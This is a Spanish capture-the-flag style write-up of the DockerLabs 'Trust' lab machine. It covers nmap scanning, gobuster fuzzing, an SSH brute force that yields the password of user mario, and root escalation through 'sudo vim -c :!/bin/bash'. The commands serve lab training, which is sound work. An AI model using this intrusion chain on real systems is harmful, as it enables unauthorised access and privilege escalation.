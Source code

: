 # Máquina Trust

Dificultad -> Muy fácil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

----------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p22,80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19a11a42fa3a9d9a0fea917f7edba3c7 (ECDSA)
|_  256 a6fdcf45a695052c5810738d39572bff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Le echamos un vistazo a la web:

![Pasted image 20240422153530](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/279340af-0955-41f7-8d84-5ec94fdde2c3)

Se trata de la página por defecto de Apache. Haremos un poco de **fuzzing** con gobuster.

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak
---------------------------------------------------------------------------------
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]  
/server-status        (Status: 403) [Size: 275
```

Encontramos un **secret.php**. Le echamos un vistazo:

![Pasted image 20240422153718](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/575be71d-b4a7-4747-bf85-0733e6befba4)

--------------
## Explotación

Tan solo obtenemos esto. El único vector de ataque que se me ocurre es hacer fuerza bruta al otro puerto abierto, el **22** que es el **ssh** con el usuario **mario**.

![Pasted image 20240422153934](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/396882d4-6159-4050-bcf1-29fc96ba6209)

Encontramos credenciales para acceder por ssh -> **mario:chocolate**

```shell
ssh mario@172.17.0.2
```

Estamos dentro !

------------------------------
### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------
## Escalada de privilegios

Usamos **sudo -l** para ver si podemos ejecutar algo como root:

```shell
sudo -l
-----------------------
User mario may run the following commands on 78a58e094bf9:
    (ALL) /usr/bin/vim
```

Podemos ejecutar **vim**. Si no sabemos como explotarlo para escalar privilegios, siempre podemos consultar -> [GTFOBins](https://gtfobins.github.io/)

```shell
sudo vim -c ':!/bin/bash'
```

```shell
whoami
----------------
root
```

